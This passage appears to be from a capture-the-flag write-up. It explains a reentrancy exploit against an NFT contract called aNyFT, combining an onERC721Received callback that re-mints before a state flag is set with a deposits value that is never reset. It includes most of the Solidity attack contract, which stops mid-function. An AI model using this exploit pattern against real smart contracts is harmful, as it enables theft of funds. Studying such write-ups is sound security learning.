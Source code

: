
So far with what we know this is what our attacking contract looks like. Our attacking contract is an `IERC721Receiver` and implements the `onERC721Received` function which will recall `anyFT.mint`. All of this code gets run before `createdNFT[msg.sender] = true;` is updated.

Now we have a separate problem. The above code will allow us to mint as many tokens as we want, but we would need to provide at least 0.005 ether per token, and we need to get our deposit value to 11 ether. We would still be spending 11 ether which is way too much.

```js
function _burn(uint256 tokenId) internal {
        address previousOwner = _update(address(0), tokenId, address(0));
        if (previousOwner == address(0)) {
            revert ERC721NonexistentToken(tokenId);
        }

        _withdrawn[previousOwner] += deposits[previousOwner];
    }
```

One thing to remember in the _burn function, is that our deposits amount never gets reset. It only resets to the value we specify when creating a new token. So why dont we create a bunch of 0.005 ether tokens, and have our last token contain 0.5 ether. This will cause our deposits value to incrememnt at 0.5 ether per token instead of the token's real value. This means that we only need to mint 22 tokens to get our deposits value to 11 ether. This would cost `0.005*21+0.5 = 0.605 ether` which is much more reasonable.

# Attacking Contract

```ts
contract Attack is IERC721Receiver{
    aNyFT public  anyFT;
    bytes4 private constant _ERC721_RECEIVED = IERC721Receiver.onERC721Received.selector;
    uint256 public count = 0;
    uint256[] public tokenIds;

    constructor (address _addr) {
        anyFT = aNyFT(_addr);
    }

    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external returns (bytes4) {
        count += 1;
        addTokenId(tokenId);
        if (count < 22) {
            anyFT.mint{value: 0.005 ether}("bruh");
        }
        else if (count == 22) {
            anyFT.mint{value: 0.5 ether}("bruh");
        }
        emit ERC721Received(operator, from, tokenId, data);
        return _ERC721_RECEIVED;
    }

    function mint() public payable {
        anyFT.mint{value: 0.005 ether}("hi");
    }

    function sendToMe() public {
        for (uint256 i = 0; i < tokenIds.length; i++) {
            anyFT.burn(tokenIds[i]);
```